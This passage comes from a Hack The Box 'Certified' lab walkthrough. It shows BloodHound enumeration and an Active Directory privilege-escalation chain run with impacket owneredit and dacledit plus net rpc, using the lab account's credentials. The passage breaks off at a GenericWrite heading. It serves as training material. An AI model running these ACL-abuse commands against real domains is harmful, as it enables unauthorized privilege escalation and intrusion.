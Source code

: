 - Got nothing useful, seems It's not that easy
![Pasted image 20250101155625.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101155625.png?raw=true)
- Searched LDAP for anything interesting and found nothing
```bash
ldapsearch -H ldap://certified.htb -D 'judith.mader@certified.htb' -w 'judith09' -b "DC=certified,DC=htb" | grep "pass"
```
![Pasted image 20250101195514.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101195514.png?raw=true)
![nothing](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExN3RxM2I1MXcwcG5lcXNxZXlrNjdsbHB0dDlmNmF5MzY0aG90M3c3MSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/f6W3eijFZUIwiNY0xp/giphy.gif)
- So atlast I collected bloodhound data
```bash
bloodhound-python -c ALL -u judith.mader -p judith09 -d certified.htb -ns 10.10.11.41
```
![Pasted image 20250101195630.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101195630.png?raw=true)
- While analyzing the data I found Interesting things
- **These are my findings:**
- The user `Judith` has WriteOwner permissions over group `MANAGEMENT@CERTIFIED.Hack The Box`
- The group `Management@certified.htb` has Generic all permission over user `management_svc@certified.htb`
- The user `MANAGEMENT_SVC@CERTIFIED.Hack The Box` has CanPsRemote permission on the Domain controller(This is not quite useful. At the end we will be abusing AD CS instead of this)
![Pasted image 20250101202115.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101202115.png?raw=true)

## Exploitation
- Time is very crucial for these kind of attacks so synced the time with the target system
```bash
sudo rdate -n certified.htb
```
#### WriteOwner Abuse
- First we need to be an user of `MANAGEMENT@CERTIFIED.Hack The Box`
- Using this command, I can change the ownership of the object to the user which I own
```bash
owneredit.py -action write -new-owner 'judith.mader' -target 'Management' 'certified.htb/judith.mader:judith09'
```
![Pasted image 20250101212751.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101212751.png?raw=true)
- To abuse ownership of a group object, I need to grant myself the AddMember privilege. Impacket's dacledit can be used for this purpose
```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=Hack The Box' 'certified.htb/judith.mader:judith09'
```
![Pasted image 20250101212835.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101212835.png?raw=true)
- Now I can add the user to the group using `net` tool
```bash
net rpc group addmem "Management" "judith.mader" -U "certified.htb/judith.mader%judith09" -S "DC01.certified.htb"
```
![Pasted image 20250101213012.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250101213012.png?raw=true)
- Now that the user `judith` has become member of the group `MANAGEMENT@CERTIFIED.Hack The Box` I can move to the next step
#### GenericWrite Abuse
